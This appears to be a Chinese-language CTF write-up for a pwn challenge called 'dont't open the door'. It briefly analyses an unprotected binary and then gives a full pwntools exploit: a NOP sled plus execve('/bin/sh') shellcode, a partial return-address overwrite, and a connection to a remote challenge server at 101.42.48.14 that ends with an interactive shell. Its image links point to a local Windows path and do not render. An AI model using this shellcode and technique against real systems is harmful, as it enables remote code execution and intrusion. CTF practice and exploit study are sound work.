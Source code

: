 # dont't open the door

## 保护机制

![image-20230419204526107](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230419204526107.png)

啥都没开，非常不错

## 代码分析

![image-20230419204628041](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230419204628041.png)

可以发现我们可以把栈上的任意一个内容拷贝到返回地址，然后读入xa0大小到栈，结合没开nx，我们可以用shellcode，接着还可以把栈上任意一个字节变成0，所以思路是把rbp位置的栈地址复制到返回地址，然后将返回地址的最后一个字节变成0，那么返回地址就有概率变成buf的地址，接着在shellcode前面填充nop，增大触发概率，这样就可以了

exp：

```python
from pwn import*
from time import*
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
sh='''
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
push 0x68
mov rax,0x732f2f2f6e69622f
push rax
mov rdi,rsp
push 0x1010101^0x6873
xor dword ptr [rsp],0x1010101
xor esi,esi
push rsi
push 8
pop rsi
add rsi,rsp
push rsi
mov rsi,rsp
xor edx,edx
push 59
pop rax
syscall
'''
sh=asm(sh)
print(len(sh))
sh=sh.ljust(0xa0,b'a')
#p=process('./door')
p=remote('101.42.48.14',8090)
#sleep(5)
p.recvuntil('home:\n')
p.sendline(str(0xa0))
p.recvuntil('mother:\n')
p.send(sh)
p.recvuntil('find:')
p.sendline(str(2))
p.interactive()

```

